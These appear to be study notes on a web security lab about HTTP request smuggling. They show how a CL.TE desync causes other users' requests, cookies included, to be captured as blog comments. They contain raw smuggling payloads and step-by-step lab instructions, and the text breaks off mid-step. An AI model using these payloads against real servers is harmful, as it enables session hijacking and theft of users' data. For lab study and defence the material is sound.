 Now consider what would happen if you:
- smuggle an equivalent request 
	- with an overly long `Content-Length` header 
	- and the `comment` parameter positioned at the end of the request as follows:
```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

The `Content-Length` header of the smuggled request:
- indicates that the body will be 400 bytes long, 
- but we've only sent 144 bytes. 
=>
- In this case, the back-end server:
	- will wait for the remaining 256 bytes before issuing the response
	- or else issue a timeout if this doesn't arrive quick enough
	  
- As a result:
	- when another request is sent to the back-end server down the same connection:
		- the first 256 bytes are effectively appended to the smuggled request as follows:![[Pasted image 20240923160025.png]]

As the start of the victim's request is contained in the `comment` parameter:
- this will be posted as a comment on the blog
	- enabling you to read it simply by visiting the relevant post.

To capture more of the victim's request, you just need to:
- increase the value of the smuggled request's `Content-Length` header accordingly,
- but note that this will involve:
	- a certain amount of trial and error
	  
- If you encounter a timeout:
  =>
	- the `Content-Length` you've specified is higher than the actual length of the victim's request. 
	- In this case, simply reduce the value until the attack works again

#### Exploiting HTTP request smuggling to capture other users' requests
1. Visit a blog post and post a comment.
2. Send the `comment-post` request to Burp Repeater, shuffle the body parameters so the `comment` parameter occurs last, and make sure it still works.
3. Increase the `comment-post` request's `Content-Length` to 400, then smuggle it to the back-end server:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
```